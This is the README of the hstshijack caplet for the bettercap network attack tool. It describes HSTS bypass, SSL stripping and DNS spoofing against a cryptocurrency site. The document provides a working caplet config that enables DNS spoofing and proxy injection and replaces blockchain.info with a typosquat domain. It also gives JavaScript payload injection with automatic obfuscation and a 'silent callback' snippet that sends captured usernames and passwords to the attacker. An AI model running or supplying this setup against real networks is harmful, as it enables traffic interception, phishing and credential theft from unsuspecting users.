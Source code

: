 <p align="center">
  <img width="420px" src="https://cdn.rawgit.com/yungtravla/cdn/ccdc3b8d/github.com/bettercap/caplets/hstshijack/logo.svg" />
</p>

### Caplet

```sh
set hstshijack.log             caplets/hstshijack/ssl.log
set hstshijack.payload         caplets/hstshijack/payloads/hstshijack-payload.js
set hstshijack.ignore          github.com,*.github.com
set hstshijack.targets         blockchain.info,*.blockchain.info
set hstshijack.replacements    blockchian.info,*.blockchian.info
#set hstshijack.blockscripts    domain.com,*.domain.com
set hstshijack.custompayloads  *:caplets/hstshijack/payloads/sslstrip.js

set http.proxy.script  caplets/hstshijack/hstshijack.js
#set net.sniff.output   hstshijack0001.pcap
set net.sniff.verbose  false
set dns.spoof.all      true
net.sniff    on
dns.spoof    on
http.proxy   on
```

### Core payload

This module injects HTTP documents with a JS payload (<a href="./payloads/hstshijack-payload.js">**hstshijack-payload.js**</a>). This payload communicates with the bettercap sniffer, revealing all URLs that were discovered on the injected document once it finished loading.

This is done in separate and asynchronous requests so that bettercap can adjust the host and path for each request, and then send a HEAD request in order to learn each host's response to a HTTP request for the given path.

### SSL log

If a host responds with a HTTPS redirect, the module saves this host in the SSL log, and bettercap will from then on spoof SSL connections for this host when possible.

### Hostname spoofing

In the <a href="./hstshijack.cap">**caplet file**</a> you can assign comma separated domains to the `hstshijack.targets` variable. _(wildcard allowed)_

For every hostname you assign to `hstshijack.targets` you must assign a replacement domain to the `hstshijack.replacements` variable.

Example:

```sh
set hstshijack.targets       blockchain.info,*.blockchain.info
set hstshijack.replacements  blockchian.info,*.blockchian.info
```

You can try to make them as unnoticeable or obvious as you like, but your options are limited here.

### Block scripts

In the <a href="./hstshijack.cap">**caplet file**</a> you can block JavaScript on hosts by assigning them to the `hstshijack.blockscripts` variable. _(wildcard allowed)_ 

### Custom payloads

You can also inject your own JavaScript payload(s) into HTML & JS files from targeted hosts by assigning them to the `hstshijack.custompayloads` variable.

Example:

```sh
hstshijack.custompayloads *:caplets/hstshijack/payloads/sslstrip.js,google.com:caplets/hstshijack/payloads/google.js,*.google.com:caplets/hstshijack/payloads/google.js
```

Once the payload is injected into a page, you can technically phish any data unless the user navigates to a URL that either has strict transport security rules enforced by their browser, or the URL was not stripped due to JavaScript security.

<a href="./payloads/sslstrip.js">**sslstrip.js**</a> is included, which strips the `s` from all `https://` instances in `<a href="...` tags.

### Obfuscation

You can write custom payloads that are automatically obfuscated by the module.

Basically every word that was found beginning with `obf_` will be obfuscated.


Example: 

```js
function obf_function() {
  alert("Random variable: obf_whatever_follows")
}

obf_function()
```

Will be injected as:

```js
function jfIleNwmKoa() {
  alert("Random variable: AsjZnJWklwMNqshCaloE")
}

jfIleNwmKoa()
```

### Silent callbacks

You can write custom payloads that communicate with bettercap without alerting the host.

Example of a silent callback:

```js
form.onsubmit = function() {
  req = new XMLHttpRequest()
  req.open("POST", "http://" + location.host + "/obf_path_callback?username=" + username + "&password=" + password)
  req.send()
}
```

The following POST request will be sniffed by bettercap, but not proxied. 

Any instance of `obf_path_callback` will be replaced with the callback path that bettercap listens for (this can save time when writing JavaScript payloads).
